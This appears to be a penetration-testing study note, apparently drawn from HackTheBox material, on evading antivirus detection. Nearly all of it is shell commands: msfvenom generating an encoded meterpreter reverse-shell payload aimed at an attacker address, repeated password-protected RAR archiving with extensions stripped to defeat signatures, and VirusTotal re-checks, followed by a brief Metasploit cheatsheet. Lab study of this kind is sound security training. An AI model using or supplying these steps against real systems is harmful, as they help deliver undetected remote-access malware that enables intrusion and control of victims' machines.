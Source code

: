Archiving a piece of information such as a file, folder, script, executable, picture, or document and placing a password on the archive bypasses a lot of common anti-virus signatures

#### Generating a payload
```Shell
msfvenom windows/x86/meterpreter_reverse_tcp LHOST=10.10.14.2 LPORT=8080 -k -e x86/shikata_ga_nai -a x86 --platform windows -o ~/test.js -i 5
```

#### Check against VirusTotal
```Shell
msf-virustotal -k <API key> -f test.js 
```

#### Archiving the Payload
```Shell
wget https://www.rarlab.com/rar/rarlinux-x64-612.tar.gz
```

```Shell
tar -xzvf rarlinux-x64-612.tar.gz && cd rar
```

```Shell
rar a ~/test.rar -p ~/test.js
```

#### Removing the .RAR Extension
```Shell
mv test.rar test
```

#### Archiving the Payload Again
```Shell
rar a test2.rar -p test
```

#### Removing the .RAR Extension
```Shell
mv test2.rar test2
```

#### Re-test w/ VirusTotal
```Shell
msf-virustotal -k <API key> -f test2
```


## All Commands from HTB Cheatsheet

`show exploits`
Show all exploits within the Framework.

`show payloads`
Show all payloads within the Framework.

`show auxiliary`
Show all auxiliary modules within the Framework.
